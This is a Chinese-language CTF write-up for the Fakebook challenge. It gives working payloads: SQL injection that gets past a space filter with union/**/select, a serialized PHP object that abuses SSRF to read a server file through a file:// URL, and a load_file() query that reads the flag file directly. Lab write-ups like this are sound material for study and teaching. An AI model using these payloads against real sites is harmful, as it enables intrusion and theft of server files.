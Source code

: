 # 知识点
sql空格过滤<br />load_file<br />反序列化<br />[网鼎杯2018-Fakebook - 腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1682583)
# 思路
进入页面，可以在join.php注册<br />进入/view.php<br />/view.php?no=1可以进行sql注入<br />将"union select"过滤,中间的空格以及相关的%0a等也被过滤，通过union/**/select来绕过<br />爆出users表中的data，是一串序列化字符，存在反序列化点<br />扫目录，发现了robots.txt和flag.php
```php
User-agent: *
Disallow: /user.php.bak
```
获得user.php源码
```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
存在ssrf点
```php
<?php


class UserInfo
{
    public $name = "aa";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";

}
$a = new UserInfo();
echo serialize($a);
```
```php
no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:2:"aa";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'%23
```
获取flag<br />![image.png](./images/20231017_2351331255.png)
### 非预期解
通过load_file来获取flag
```php
no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4%23
```
